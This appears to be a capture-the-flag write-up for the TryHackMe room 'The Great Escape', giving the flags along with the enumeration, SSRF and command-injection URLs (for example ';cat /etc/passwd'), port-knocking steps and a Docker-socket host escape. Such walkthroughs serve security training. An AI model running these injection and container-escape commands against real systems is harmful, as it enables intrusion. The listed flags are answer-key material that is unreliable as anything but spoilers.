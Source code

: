 
# <div align="center">[The Great Escape](https://tryhackme.com/r/room/thegreatescape)</div>
<div align="center">Our devs have created an awesome new site. Can you break out of the sandbox?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/aff860f5-44b7-4b8e-bb43-0f47a4c04e23" height="200"></img>
</div>


## Task 2. A Simple Webapp
Start off with a simple webapp. Can you find the hidden flag?
### Find the flag hidden in the webapp

```
THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```
* ```nmap -sSCV -p- <IP>```
* ```gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt```
* ```curl http://<IP>/.well-known/security.txt```
* ```curl -I http://<IP>//api/fl46```

## Task 3. Root! Root?
```
THM{0cb4b947043cb5c0486a454b75a10876}
```
```
curl http://<IP>/robots.txt
http://<IP>/exif-util

http://<IP>/api/exif?url=http://api-dev-backup:8080
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat /etc/passwd
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat ~/dev-note.txt
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /root
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root log
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```

## Task 4. The Great Escape
You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

Find the real root flag
```
THM{c62517c0cad93ac93a92b1315a32d734}
```
```
cd /opt
sudo git clone https://github.com/grongor/knock.git
cd knock
./knock <IP> 42 1337 10420 6969 63000
nmap <IP> -p 2375
sudo nano /etc/docker/daemon.json
sudo systemctl stop docker
sudo systemctl start docker
docker -H <IP>:2375 images
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
exit
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash
cd /root
ls
cat flag.txt
```
